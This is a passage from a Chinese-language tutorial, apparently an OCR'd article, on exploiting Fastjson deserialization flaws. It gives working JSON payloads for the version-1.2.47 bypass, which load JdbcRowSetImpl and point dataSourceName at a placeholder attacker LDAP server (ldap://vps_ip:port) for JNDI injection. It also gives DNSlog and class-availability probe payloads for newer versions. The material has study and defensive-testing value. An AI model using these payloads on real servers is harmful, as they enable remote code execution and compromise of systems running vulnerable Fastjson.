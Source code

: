 3、**<=1.2.47 payload**  
  
1.2.47版本的payload，在之前的基础上做了绕过和变形，新增用@type指定java.lang.Class类，该类是Java反射机制的基础，能动态加载目标类，可以使用该类动态加载JdbcRowSetImpl类，从而达到绕过的效果。  
```
{
  "a":{
    "@type":"java.lang.Class",
    "val":"com.sun.rowset.JdbcRowSetImpl"
  },
  "b":{
    "@type":"com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName":"ldap://vps_ip:port/TouchFile",
    "autoCommit":true
  }
}
```  
```
{
  "@type":"com.alibaba.fastjson.JSONObject",
  {
    "a":{
      "@type":"java.lang.Class",
      "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
      "@type":"com.sun.rowset.JdbcRowSetImpl",
      "dataSourceName":"ldap://vps_ip:port/TouchFile",
      "autoCommit":true
    }
  }
}
```  
  
4、**高版本payload**  
  
在高版本的fastjson中，>=1.2.48版本中，autotype默认关闭，防止不受信任的类被实例化；如果要开启autotype，则必须启用黑白名单防护，只允许安全的类被反序列化。那么想要利用高版本fastjson漏洞，关键在于找到可利用的类，在白名单中，并且能被实例化。  
  
1）**autotype原理**  
  
autotype关闭情况下，先判断类是否在Mapping或者deserializers.findClass()中，若在，则允许实例化；若不在则判断是否在白名单中，若在白名单中，则允许实例化，否则不允许。  
  
autotype开启情况下，直接判断类是否在白名单中，若在，则允许实例化；若不在，则不允许。  
  
2）判断autotype是否开启  
  
使用如下数据可以判断，其中用到java.net.URL类，这个类在黑名单中，在autotype开启的情况下，dnslog不会有响应；若autotype是关闭的，则会判断该类是否在Mapping中，而这个类刚好在，因此可以实例化，dnslog也就有响应。  
```
{"@type":"java.net.URL","val":"http://dnslog"}
```  
  
3）判断哪些类可以使用  
  
根据返回包内容判断，例如用@type指定类为JdbcRowSetImpl，返回包提示autotype is not support，则该类无法使用；若返回create instance error，则说明该类可以使用，可能是由于缺少参数，导致实例化出错。  
```
{"@type":"com.sun.rowset.JdbcRowSetImpl"}
```  
  